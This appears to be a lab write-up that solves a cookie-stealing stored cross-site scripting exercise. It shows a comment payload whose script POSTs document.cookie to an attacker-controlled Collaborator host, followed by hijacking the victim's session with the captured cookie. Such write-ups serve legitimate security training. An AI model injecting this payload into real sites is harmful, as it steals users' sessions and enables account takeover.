 ![image](https://github.com/udayk01/Web-Security/assets/52235763/14333b7d-5f97-4097-9555-eab57a3f2944)

## Solution:

> Using Burp Suite Professional, go to the Collaborator tab.

![image](https://github.com/udayk01/Web-Security/assets/52235763/8238c35d-ff36-476d-8e3b-3d3e866eac59)

> Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.

```il7682gurf0gi3cfi4rtyzwrnit9hz5o.oastify.com```

> Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:

```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

> This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.

![image](https://github.com/udayk01/Web-Security/assets/52235763/69c55101-1bbb-4e04-9f91-1604f0b8c024)

> Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.

![image](https://github.com/udayk01/Web-Security/assets/52235763/862706de-a5d2-40fc-b515-f522c9006764)

> Take a note of the value of the victim's cookie in the POST body.

![image](https://github.com/udayk01/Web-Security/assets/52235763/5f2f701c-e2f9-4e4e-886e-e76488576cbc)

> cookie: Xp6B7oUXN7hToyLcKtt4sopqfN4CM86t

> Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. 

![Screenshot 2024-04-17 205742](https://github.com/udayk01/Web-Security/assets/52235763/255dc60d-fb38-4b40-8877-01c4b167eecc)

![Screenshot 2024-04-17 205909](https://github.com/udayk01/Web-Security/assets/52235763/e49bd664-a23e-4b3e-88ee-bb5617333597)

> Lab Solved

![Screenshot 2024-04-17 210211](https://github.com/udayk01/Web-Security/assets/52235763/7108a9b7-2674-4b96-b542-811c7290e9a0)

